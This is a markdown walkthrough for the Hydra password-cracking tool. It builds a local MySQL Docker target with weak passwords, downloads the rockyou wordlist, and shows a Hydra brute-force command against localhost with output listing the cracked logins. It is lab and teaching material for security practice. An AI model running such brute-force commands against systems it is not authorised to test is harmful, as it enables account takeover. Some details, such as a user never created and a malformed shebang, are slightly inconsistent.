 ```yaml
---
layout: default
title: "Hydra Walkthrough"
---
```


# Hydra Walkthrough

Hydra basic walkthrough

## Installation

```bash
# Linux
apt-get install hydra

# MacOS
brew install hydra
```

Validate installation by running:

```bash
hydra -h
```

## Prepare attack target - MySQL database
### Create `init.sql`
```sql
-- Create additional users
CREATE USER 'user1'@'%' IDENTIFIED BY 'password12345';

-- Grant privileges
GRANT ALL PRIVILEGES ON db.* TO 'user1'@'%';

GRANT SELECT ON mysql.user TO 'user'@'%';


-- Flush privileges to ensure that all changes take effect
FLUSH PRIVILEGES;
```

### Create `docker-compose.yml`
```yaml
version: "3.8"

services:
  db:
    image: mysql:latest
    container_name: mysql_db
    environment:
      MYSQL_ROOT_PASSWORD: rootpassword
      MYSQL_DATABASE: db
      MYSQL_USER: user
      MYSQL_PASSWORD: password
    volumes:
      - db_data:/var/lib/mysql
      - ./init.sql:/docker-entrypoint-initdb.d/init.sql
    ports:
      - "3306:3306"

volumes:
  db_data:
```

Run MySQL database in Docker container:

```bash
docker-compose up -d
```

Install MySQL client:

```bash
# Linux
apt-get install mysql-client

# MacOS
brew install mysql-client
```

Connect to MySQL database:

```bash
╰─ sudo mysql -h 127.0.0.1 -P 3306 -u user -p

Enter password:
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 8
Server version: 8.3.0 MySQL Community Server - GPL

Copyright (c) 2000, 2024, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>

```

List all user

```sql
SELECT User, Host FROM mysql.user;
```

You should see

```
+------------------+-----------+
| User             | Host      |
+------------------+-----------+
| root             | %         |
| user             | %         |
| user1            | %         |
| user2            | %         |
| mysql.infoschema | localhost |
| mysql.session    | localhost |
| mysql.sys        | localhost |
| root             | localhost |
+------------------+-----------+
8 rows in set (0.01 sec)
```

## Prepare attack data

Check usernames.txt file:

```txt
user
user1
user2
```

Download rockyou.txt dictionary:

```bash
#bin/sh

# Download rockyou.txt dictionary
wget https://github.com/danielmiessler/SecLists/raw/master/Passwords/Leaked-Databases/rockyou.txt.tar.gz

# Extract rockyou.txt dictionary
tar -xvf rockyou.txt.tar.gz

# Rename rockyou.txt to passwords.txt
mv rockyou.txt passwords.txt

# Remove rockyou.txt.tar.gz
rm rockyou.txt.tar.gz
```

```bash
# Download
./download_rockyou.txt
```

## Attack MySQL database

```bash
hydra -L usernames.txt -P passwords.txt -s 3306 localhost mysql
```

```bash
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-07-13 12:01:24
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 28688796 login tries (l:2/p:14344398), ~7172199 tries per task
[DATA] attacking mysql://localhost:3306/
```

### password

```bash
[3306][mysql] host: localhost   login: user   password: password
```

### password1234

```bash
[3306][mysql] host: localhost   login: user1   password: password12345
[STATUS] attack finished for localhost (waiting for children to complete tests)
1 of 1 target successfully completed, 2 valid passwords found
```
